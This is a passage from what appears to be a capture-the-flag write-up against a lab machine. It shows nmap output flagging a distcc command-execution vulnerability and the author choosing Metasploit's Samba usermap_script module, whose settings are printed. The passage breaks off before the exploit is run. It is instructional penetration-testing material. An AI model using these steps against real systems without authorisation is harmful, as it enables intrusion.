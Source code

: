 ```bash
|   distcc Daemon Command Execution
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2004-2687
|     Risk factor: High  CVSSv2: 9.3 (HIGH) (AV:N/AC:M/Au:N/C:C/I:C/A:C)
|       Allows executing of arbitrary commands on systems running distccd 3.1 and
|       earlier. The vulnerability is the consequence of weak service configuration.
|       
|     Disclosure date: 2002-02-01
|     Extra information:
|       
|     uid=1(daemon) gid=1(daemon) groups=1(daemon)
|   
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2004-2687
|       https://nvd.nist.gov/vuln/detail/CVE-2004-2687
|_      https://distcc.github.io/security.html
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```  

The nmapAutomator scan revealed a lot of interesting information about the target, including a likely vulnerbility. Instead of using the identifed vulnerabilites, I instead opted to go after the smb service, which I noted was a vulnerable version.  

```bash
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
```  

After doing some quick research with searchsploit and exploit-db, I confirmed that the current smb version in use is vulnerable to a public exploit on metasploit. Below is the high level details on the multi/samba/usermap_script metasploit module.

```bash
msf6 exploit(multi/samba/usermap_script) > info

       Name: Samba "username map script" Command Execution
     Module: exploit/multi/samba/usermap_script
   Platform: Unix
       Arch: cmd
 Privileged: Yes
    License: Metasploit Framework License (BSD)
       Rank: Excellent
  Disclosed: 2007-05-14

Provided by:
  jduck <jduck@metasploit.com>

Available targets:
  Id  Name
  --  ----
  0   Automatic

Check supported:
  No

Basic options:
  Name    Current Setting  Required  Description
  ----    ---------------  --------  -----------
  RHOSTS  10.10.10.3       yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
  RPORT   139              yes       The target port (TCP)

Payload information:
  Space: 1024

```